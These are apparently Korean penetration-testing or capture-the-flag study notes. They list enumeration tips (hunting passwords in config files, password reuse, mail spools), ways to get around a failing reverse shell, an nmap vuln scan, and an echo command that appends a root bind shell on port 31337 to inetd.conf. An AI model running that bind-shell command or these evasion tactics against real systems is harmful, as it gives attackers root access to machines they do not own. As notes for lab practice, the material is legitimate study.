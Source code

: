 - `config` 파일을 먼저 `find`로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse

- `curl` 헤더 확인

- 사이트 제목 및 내용 확인

- `/var/mail`에 있는 내용 확인
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
- /etc/hosts에 등록하고 난 뒤에 nmap 한번 더 실행해주기.
---
# FTP
- `ls -al`로 숨겨진 파일 확인 가능.
